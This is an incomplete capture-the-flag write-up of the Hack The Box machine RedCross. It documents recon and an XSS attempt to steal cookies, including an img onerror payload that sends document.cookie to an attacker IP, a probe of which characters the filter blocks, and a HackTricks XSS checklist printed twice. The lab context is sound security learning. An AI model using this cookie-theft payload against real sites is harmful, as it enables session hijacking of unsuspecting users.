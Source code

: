 # RedCross Writeup

Name: RedCross
Date:  28/4/2024
Difficulty:  Medium
Goals:  
- Steal some cookies, it has been a while
Learnt:
Beyond Root:
- Finish the new XSS room on https://tryhackme.com/r/room/axss
- Twin with [[Schooled-Helped-Through]]

- [[RedCross-Notes.md]]
- [[RedCross-CMD-by-CMDs.md]]

I recently came across the need to be able to exploit an XSS cookie hijacking attack 
## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/RedCross/Screenshots/ping.png)

I did look at this machine my notes at of review state:
I have tried:
- injections 
- sqlmap
- php filter and fuzzed for files
- SSRF
- different vhost/subdomain
Found: 
- intra.redcross.htb subdomain
TLS vulnerabilities are all that is left!
- https://www.exploit-db.com/exploits/32764 - server closed connections

XSS is one of my lesser done exploits as it requires boxes with automated users on the box and most courses that are not web exclusive tend to not have XSS as part of assessment unless specified. The only circumstance that XSS I know of where I does not require automated users is if there is a SQL injection that store page data that is programmed to be reflected after storing and retrieving it. This is analogous to SSTI without the framework, but would require a database and the source code, which actually implements pages like a profile page.  
![](ippsecvideoexplaination.png)

This is two hints from being a Helped-Through.
![](www-root.png)

## XSS 

As has already been stated, I looked up machine that had XSS to specifically have another box to learn to steal cookies, unfortunately the THM does cover this - got to through the Reflected XSS section and practical. 
![](initialattempt.png)
This XSS payload was found on https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies and here it is proxied through `burpsuite`.
![1080](initialattemptinburpsuite.png)

Firstly from other exploit types the best first step is to check for bad characters, I decided to just copy and paste a improved special characters and their (double) encoded variants. Also will test whether Reset as a subject type works:
![](specialcharacters.png)

Still no cookies in the jar:
![](stillnocookiesinthejar.png)

![](subjectmightactuallynotbechecked.png)


[HackTricks XSS Methodology](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
1. Check if **any value you control** (_parameters_, _path_, _headers_?, _cookies_?) is being **reflected** in the HTML or **used** by **JS** code.ls -la
2. **Find the context** where it's reflected/used.
3. If **reflected**
    1. Check **which symbols can you use** and depending on that, prepare the payload:
        1. In **raw HTML**:
            1. Can you create new HTML tags?
            2. Can you use events or attributes supporting `javascript:` protocol?
            3. Can you bypass protections?
            4. Is the HTML content being interpreted by any client side JS engine (_AngularJS_, _VueJS_, _Mavo_...), you could abuse a [**Client Side Template Injection**](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti).
            5. If you cannot create HTML tags that execute JS code, could you abuse a [**Dangling Markup - HTML scriptless injection**](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)?
        2. Inside a **HTML tag**:
            1. Can you exit to raw HTML context?
            2. Can you create new events/attributes to execute JS code?
            3. Does the attribute where you are trapped support JS execution?
            4. Can you bypass protections?
        3. Inside **JavaScript code**:
            1. Can you escape the `<script>` tag?
            2. Can you escape the string and execute different JS code?
            3. Are your input in template literals ``?
            4. Can you bypass protections?
        4. JavaScript **function** being **executed**
            1. You can indicate the name of the function to execute. e.g.: `?callback=alert(1)`
4. If **used**:    
    1. You could exploit a **DOM XSS**, pay attention how your input is controlled and if your **controlled input is used by any sink.**


```html
<script>fetch('http://10.10.14.29')</script>
<img src=x onerror="this.src='http://10.10.14.29/'+document.cookie; this.removeAttribute('onerror');">
```

![](oopspage.png)

#### Enumerating Bad Characters

![](documentDotcookieNotbacklist.png)

![](fetchFuncNotBlacklisted.png)

![](gtAndltblacklisted.png)

![](dotNotblacklisted.png)

![](eqNotBlacklisted.png)

![](semicolonNotBlacklisted.png)

![](wordScriptNotBlacklisted.png)

![](imgAndsrcNotBlacklisted.png)

![](httpAndhttpsAndcolonNotBlacklisted.png)

![](quotesAndcommasNotBlaacklisted.png)

![](backslashAndHexNotBlacklisted.png)

Not Blacklisted
```js
fetch()
document.cookie
/
.
=
;
script
img
src
https://
http://
'',
```

Blacklisted
```js
<
>
```

![](notEvenAScan.png)
So presumable I lost the data on this box or did not actually do. So I have at least put in some work even if it as looking now at the description more carefully I have a lot more to do. Therefore I will turn this into a Helped-Through and will try out the new Guided Mode on another machine today instead as I have yet to try that and question whether it is worth doing. [2390s of IppSec at some point not sure when](https://www.youtube.com/watch?v=-GNyDEQ9UDU&t=2390s)

## Foothold

## Privilege Escalation

## Post Root Reflection

## Beyond Root

[HackTricks XSS Methodology](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
1. Check if **any value you control** (_parameters_, _path_, _headers_?, _cookies_?) is being **reflected** in the HTML or **used** by **JS** code.ls -la
2. **Find the context** where it's reflected/used.
3. If **reflected**
    1. Check **which symbols can you use** and depending on that, prepare the payload:
        1. In **raw HTML**:
            1. Can you create new HTML tags?
            2. Can you use events or attributes supporting `javascript:` protocol?
            3. Can you bypass protections?
            4. Is the HTML content being interpreted by any client side JS engine (_AngularJS_, _VueJS_, _Mavo_...), you could abuse a [**Client Side Template Injection**](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti).
            5. If you cannot create HTML tags that execute JS code, could you abuse a [**Dangling Markup - HTML scriptless injection**](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)?
        2. Inside a **HTML tag**:
            1. Can you exit to raw HTML context?
            2. Can you create new events/attributes to execute JS code?
            3. Does the attribute where you are trapped support JS execution?
            4. Can you bypass protections?
        3. Inside **JavaScript code**:
            1. Can you escape the `<script>` tag?
            2. Can you escape the string and execute different JS code?
            3. Are your input in template literals ``?
            4. Can you bypass protections?
        4. JavaScript **function** being **executed**
            1. You can indicate the name of the function to execute. e.g.: `?callback=alert(1)`
4. If **used**:    
    1. You could exploit a **DOM XSS**, pay attention how your input is controlled and if your **controlled input is used by any sink.**